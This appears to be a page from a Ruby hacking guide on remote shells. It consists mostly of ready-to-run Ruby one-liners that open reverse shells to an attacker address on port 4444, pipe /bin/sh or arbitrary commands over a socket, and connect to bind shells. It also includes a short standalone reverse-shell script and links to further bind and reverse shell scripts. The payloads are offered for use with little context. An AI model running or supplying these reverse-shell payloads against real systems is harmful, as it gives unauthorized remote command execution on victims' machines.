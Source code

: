 # Remote Shell

Remote shell means s forward or reverse connection to the target system command-line(shell). 

**Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
since `192.168.0.15` is the victim IP

## Reverse shell
Attacker is listening on port 4444 `nc -lvp 4444`. Now on victim machine run
```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't want to rely on `/bin/sh`
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

if you don't want to rely on `cmd.exe`
```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you want it more flexible script file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```
- To listen 
```
ruby ncat.rb -lvp 443 
```

- To connect 
```
ruby ncat.rb -cv -r RHOST -p 443
```

## Bind and Reverse shell 
This is an awesome implementation for a standalone  [bind][1] and [reverse][2] shells scripts written by [Hood3dRob1n][3] on github . The bind shell requires authentication while reverse is not.



<br><br><br>
---
[1]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb
[2]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb
[3]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells